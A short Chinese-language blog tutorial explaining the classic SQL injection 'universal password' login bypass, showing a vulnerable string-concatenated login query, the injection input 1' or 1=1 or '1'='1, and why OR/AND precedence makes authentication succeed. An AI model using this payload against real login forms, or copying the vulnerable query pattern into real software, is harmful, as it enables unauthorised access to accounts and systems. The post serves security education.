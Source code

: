 # Sql注入

## 万能密码

原验证登陆语句:

```mysql
SELECT * FROM admin WHERE Username= '".$username."' AND Password= '".md5($password)."'
```

输入 1′ or 1=1 or ‘1’=’1万能密码语句变为:

```mysql
SELECT * FROM admin WHERE Username='1' OR 1=1 OR '1'='1' AND Password='EDFKGMZDFSDFDSFRRQWERRFGGG'
```

即得到优先级关系：or<and<not，同一优先级默认从左往右计算。

1. 上面’1’=’1’ AND Password=’EDFKGMZDFSDFDSFRRQWERRFGGG’先计算肯定返回false,因为密码是我们乱输入的。(此处是假)
2. Username=’1’ 返回假,没有用户名是1(此处是假)
3. 1=1返回真(此处是真)

以上的结果是: 假 or 真 or 假 返回真。验证通过。

---

> 作者: hahaen  
> https://hahaen.github.io/sql%E6%B3%A8%E5%85%A5/
